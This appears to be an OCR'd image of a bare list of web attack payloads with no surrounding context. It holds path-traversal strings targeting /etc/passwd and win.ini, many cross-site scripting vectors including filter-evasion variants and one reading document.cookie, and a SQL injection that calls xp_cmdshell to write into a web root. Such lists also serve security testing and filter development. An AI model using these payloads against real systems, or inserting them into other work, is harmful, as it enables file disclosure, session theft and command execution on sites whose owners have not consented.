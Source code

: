 ```
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
 
%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/windows/win.ini
 
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
 
<script>alert('Vulnerable');</script>
 
<script>alert('Vulnerable')</script>
 
a.jsp/<script>alert('Vulnerable')</script>
 
a?<script>alert('Vulnerable')</script>
 
"><script>alert('Vulnerable')</script>
 
';exec%20master..xp_cmdshell%20'dir%20 c:%20>%20c:\inetpub\wwwroot\?.txt'--&&
 
%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
 
%3Cscript%3Ealert(document. domain);%3C/script%3E&
 
%3Cscript%3Ealert(document.domain);%3C/script%3E&SESSION_ID={SESSION_ID}&SESSION_ID=
 
<IMG src="javascript:alert('XSS');">
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=JaVaScRiPt:alert('XSS')>
 
<IMG src=JaVaScRiPt:alert("XSS")>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src="jav ascript:alert('XSS');">
 
<IMG src="jav ascript:alert('XSS');">
 
<IMG src="jav ascript:alert('XSS');">
 
"<IMG src=java\0script:alert(\"XSS\")>";' > out
 
<IMG src=" javascript:alert('XSS');">
 
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
 
<BODY BACKGROUND="javascript:alert('XSS')">
 
<BODY ONLOAD=alert('XSS')>
 
<IMG DYNSRC="javascript:alert('XSS')">
 
<IMG LOWSRC="javascript:alert('XSS')">
 
<BGSOUND src="javascript:alert('XSS');">
```